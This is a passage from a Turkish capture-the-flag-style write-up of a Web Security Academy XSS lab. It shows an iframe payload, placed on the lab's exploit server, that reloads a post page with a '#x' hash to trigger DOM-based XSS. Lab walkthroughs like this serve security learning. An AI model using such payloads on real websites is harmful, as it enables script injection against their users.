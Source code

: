 ![Untitled](Web-Security-0x0B-Web-Security-Academy’de-XSS-Cozm-356d50d1b933477eb37796d3f6bc53d8/Untitled-8.png)

- Artık exploit server’a giderek iframe ile kurduğumuz yapıyı buraya koyabiliriz.

```python
<iframe src=https://0a69009b03868a8f81ffa70100b100a8.web-security-academy.net/post?postId=5 onload="setTimeout(()=>this.src=this.src+'#x',500)">
```

![Untitled](Web-Security-0x0B-Web-Security-Academy’de-XSS-Cozm-356d50d1b933477eb37796d3f6bc53d8/Untitled-9.png)
